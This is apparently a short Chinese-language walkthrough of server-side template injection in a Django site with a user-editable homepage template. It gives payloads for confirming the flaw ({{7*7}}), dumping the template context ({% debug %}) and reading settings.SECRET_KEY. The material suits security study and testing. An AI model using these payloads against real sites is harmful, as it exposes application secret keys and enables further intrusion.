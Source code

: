 网址首页的模板用户可以自由更改



验证漏洞：

```javascript
{{7*7}}
```

报错：

![](images/65E6A62805084FE689A8FD61DCE2359Bclipboard.png)

此时已经说明和服务端有交互存在漏洞



根据报错信息，知道这是一个django框架的网址

payload:

```javascript
{% debug %}
```

输出将包含可以在此模板内访问的对象和属性的列表



![](images/643DE0F6C9A241DF8E3C8364D3C00518clipboard.png)



可以使用setting对象



获取SECRET_KEY

payload:

```javascript
{{settings.SECRET_KEY}}
```

